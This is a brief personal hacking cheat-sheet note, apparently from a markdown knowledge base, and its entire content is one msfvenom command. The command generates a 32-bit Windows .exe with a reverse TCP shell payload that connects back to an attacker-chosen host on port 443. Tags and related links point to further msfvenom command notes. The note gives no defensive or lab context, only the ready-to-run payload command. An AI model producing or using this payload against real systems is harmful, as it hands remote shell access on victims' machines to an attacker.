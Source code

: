 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

# Related

- [20221003150775](/zet/20221003150775/README.md) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
